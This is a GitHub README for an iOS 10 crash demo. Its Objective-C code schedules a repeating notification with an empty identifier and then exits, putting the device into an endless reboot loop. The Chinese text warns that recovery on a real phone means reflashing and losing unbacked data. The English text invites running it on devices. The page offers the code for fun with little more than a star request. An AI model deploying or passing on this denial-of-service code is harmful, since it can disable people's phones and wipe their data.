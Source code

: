 iOS10-Bug-Demo
==============
[![preview](https://travis-ci.org/Joker-388/MessageImageCategory.svg?branch=master)](http://www.jianshu.com/u/95d5ea0acd19)&nbsp;<br><br>
[![preview](https://github.com/Joker-388/iOS10-Bug-Demo/blob/master/Preview/crash1.gif)](http://www.jianshu.com/u/95d5ea0acd19)&nbsp;
<br><br>
让iOS系统崩溃无限黑屏重启，这里分享一下Demo，建议在虚拟机跑，无限重启后选择虚拟机reset content and settings就可以恢复。

友情提示：别在真机跑，不然真机也会无限重启，只能通过iTunes调试模式重新刷机恢复，数据未备份会全部丢失。

觉得好玩顺手点一个star，前期说谢谢啦。
==============

<br/>
---
使用方法：
==============
1.点击准备按钮，同意app发送通知。<br>
2.点击开始按钮，app崩溃，设备无限黑屏重启。<br>

<br/>
---
English
==============
Let ios10 crash and restart by circle. You can try it both on simulator and device.<br>
Tip: If you run it on device, you can only reinstall the system with iTunes. <br>
1.Click ready button, allow app authorization.<br>
2.Click start button, app clash, and device restart again and again.<br>
<br/>
---
Code
==============
 ```objective-c		 
     UNMutableNotificationContent *content = [[UNMutableNotificationContent alloc] init];		
     content.badge = @2;		
     content.body = @"body";		
     content.sound = [UNNotificationSound defaultSound];		
     content.subtitle = @"subtitle";		
     content.title = @"title";		
     		
     NSDate *date = [NSDate new];		
     NSDateFormatter *formatter = [NSDateFormatter new];		
     [formatter setDateFormat:@"yyyy"];		
     NSInteger currentYear=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"MM"];		
     NSInteger currentMonth=[[formatter stringFromDate:date]integerValue];		
     [formatter setDateFormat:@"dd"];		
     NSInteger currentDay=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"HH"];		
     NSInteger currentHour=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"mm"];		
     NSInteger currentMinute=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"ss"];		
     NSInteger currentSecond=[[formatter stringFromDate:date] integerValue];		
     		
     if (currentSecond + 2 > 59) {		
         currentMinute = currentMinute + 1;		
         currentSecond = 0;		
     } else {		
         currentSecond = currentSecond + 2;		
     }		
     		
     NSDateComponents *components = [NSDateComponents new];		
     components.year = currentYear;		
     components.month = currentMonth;		
     components.day = currentDay;		
     components.hour = currentHour;		
     components.minute = currentMinute;		
     components.second = currentSecond;		
     		
     UNCalendarNotificationTrigger *trigger = [UNCalendarNotificationTrigger triggerWithDateMatchingComponents:components repeats:YES];		
     UNNotificationRequest *request = [UNNotificationRequest requestWithIdentifier:@"" content:content trigger:trigger];		
     [[UNUserNotificationCenter currentNotificationCenter] addNotificationRequest:request withCompletionHandler:^(NSError * _Nullable error) {		
         exit(0);		
     }];		
 ```

